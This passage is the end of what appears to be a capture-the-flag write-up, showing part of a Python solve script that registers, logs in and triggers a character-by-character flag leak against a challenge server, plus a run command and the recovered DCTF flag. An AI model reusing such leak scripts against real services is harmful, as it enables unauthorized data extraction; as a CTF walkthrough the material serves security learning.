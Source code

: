 ```python
    return True
  else:
    print('Failed to register')
    return False

def login():
  r = s.post(target_url + '/login', data={'username': username, 'password': password})
  if r.status_code == 200:
    print('Logged in')
    return True
  else:
    print('Failed to login')
    return False

def exploit():
  global idx, flag
  register()
  r = login()
  if r:
    report(flag, idx)

exploit()
```
4. Iterate until all characters of the flag are leaked
```bash
$ python3 x.py flag=DCTF{ idx=0
```
5. Retrieve the flag
![flag](./img/flag.png)

**`DCTF{l3ak_ev3ry_d4y_0f_ev3ry_w33k}`**